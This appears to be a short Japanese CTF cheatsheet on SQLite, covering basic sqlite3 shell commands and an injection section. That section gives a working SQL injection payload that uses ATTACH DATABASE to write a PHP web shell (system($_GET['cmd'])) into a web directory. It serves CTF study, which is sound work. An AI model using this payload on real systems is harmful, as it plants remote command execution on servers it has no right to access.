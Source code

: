 ```yaml
---
layout: post
published : true
title: "SQLite"
permalink: /ctf/cheatsheets/common/sqlite
tags: [CTF, Common, cheatsheet, SQLite]
---
```

## 基本
### 対話シェルで起動
```sh
$ sqlite3 database.db
```
### シェルに直接SQLの結果を返す
```sh
$ sqlite3 database.db 'select * from users;'
```
### テーブル一覧の表示
```sh
sqlite> .table
```

## Injection

### Webshell(PHP)
ターゲットが以下のとき、
```sql
INSERT INTO subscribers (ip_address, email) VALUES('$foo', '$bar')
```
以下のようにする。
```sql
xxx','yyy');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']) ?>");--
```
